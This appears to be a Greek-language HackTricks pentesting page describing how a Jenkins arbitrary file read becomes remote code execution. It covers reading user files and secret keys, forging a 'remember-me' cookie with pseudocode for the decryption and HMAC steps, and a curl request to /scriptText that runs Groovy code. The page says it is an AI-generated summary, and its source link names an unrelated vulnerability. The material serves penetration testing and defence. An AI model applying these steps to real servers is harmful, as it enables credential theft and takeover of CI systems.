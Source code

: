 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

Σε αυτή την ανάρτηση ιστολογίου είναι δυνατή η εύρεση ενός εξαιρετικού τρόπου για να μετατραπεί μια ευπάθεια Local File Inclusion στο Jenkins σε RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Αυτό είναι ένα AI δημιουργημένο σύνοψη του μέρους της ανάρτησης όπου η δημιουργία ενός αυθαίρετου cookie καταχράται για να αποκτήσει RCE εκμεταλλευόμενη μια τοπική ανάγνωση αρχείου μέχρι να έχω χρόνο να δημιουργήσω μια σύνοψη μόνος μου:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" πρέπει να είναι ενεργοποιημένο (προεπιλεγμένη ρύθμιση).
- **Access Levels:** Ο επιτιθέμενος χρειάζεται Overall/Read δικαιώματα.
- **Secret Access:** Ικανότητα ανάγνωσης τόσο δυαδικού όσο και κειμενικού περιεχομένου από βασικά αρχεία.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Πρόσβαση στη διαμόρφωση χρήστη και μυστικά από `$JENKINS_HOME/users/*.xml` για κάθε χρήστη για να συγκεντρωθούν:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- Εξαγωγή κρυπτογραφικών κλειδιών που χρησιμοποιούνται για την υπογραφή του cookie:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Προσθέτει μία ώρα στην τρέχουσα ώρα
```

- **Concatenate Data for Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Μετατροπή του master key σε μορφή AES128
decrypted = AES.decrypt(macFile, key)  // Αποκρυπτογράφηση του αρχείου .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Υπολογισμός HMAC χρησιμοποιώντας το token και το MAC key
tokenSignature = bytesToHexString(mac) // Μετατροπή του MAC σε δεκαεξαδική συμβολοσειρά
```

**Cookie Encoding**

- **Generate Final Cookie:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Base64 κωδικοποίηση των δεδομένων cookie
```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
- Κάντε ένα αίτημα στο `/crumbIssuer/api/json` για να αποκτήσετε `Jenkins-Crumb`.
- Συλλέξτε το `JSESSIONID` από την απάντηση, το οποίο θα χρησιμοποιηθεί σε συνδυασμό με το cookie "remember-me".

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Το Groovy script μπορεί να χρησιμοποιηθεί για την εκτέλεση εντολών σε επίπεδο συστήματος ή άλλων λειτουργιών μέσα στο περιβάλλον Jenkins.

Η παραδείγματος curl εντολή που παρέχεται δείχνει πώς να κάνετε ένα αίτημα στο Jenkins με τις απαραίτητες κεφαλίδες και cookies για να εκτελέσετε αυθαίρετο κώδικα με ασφάλεια.

{{#include ../../banners/hacktricks-training.md}}
